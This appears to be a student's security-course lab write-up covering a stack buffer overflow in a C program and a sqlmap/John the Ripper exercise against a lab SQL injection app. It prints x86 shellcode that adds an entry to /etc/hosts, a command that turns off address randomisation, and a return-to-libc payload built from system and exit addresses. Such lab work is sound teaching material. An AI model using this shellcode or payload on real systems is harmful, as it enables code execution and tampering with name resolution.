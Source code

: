 # Lab #1,22110044,Nguyen Nguyen Toan Khoa, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
 Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:
Description text (optional)
For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy
![alt text](image-38.png)

Then i will compile C asm program and C program to executable code
![alt text](image-37.png)

I will use an older bash and turn off randomly given stack value.
`sudo sysctl -w kernel.randomize_va_space=0`
![alt text](image-39.png)
The stack frame of main function

![alt text](image-32.png)
The pwd of the copy_file: 
![alt text](image-40.png)
Create a global environment varibale using `export my_path="/home/seed/seclabs/copy_file"`.

Then i will set root for user to write:
![alt text](image-50.png)

I will find the address of system and exit and that string of varibale:
![alt text](image-41.png)

Address value of system: 0xf7e50db0 will be inserted with format \xb0\x0d\xe5\xf7

Address value of exit: 0xf7e449e0 will be inserted with format \xe0\x49\xe4\f7

Address value of the string of env: 0xffffd94c will be inserted with format \x4c\xd9\xff\xff

So the command will be:
`r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x4c\xd9\xff\xff')")`
Before i run this command:
![alt text](image-51.png)

And the output when i run this command: 

![alt text](image-49.png)



# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
  ![alt text](image-42.png)
- Install sqlmap.
  ![alt text](image-43.png)
  ![alt text](image-45.png)
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
  ![alt text](image-46.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
![alt text](image-47.png)
![alt text](image-48.png)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:





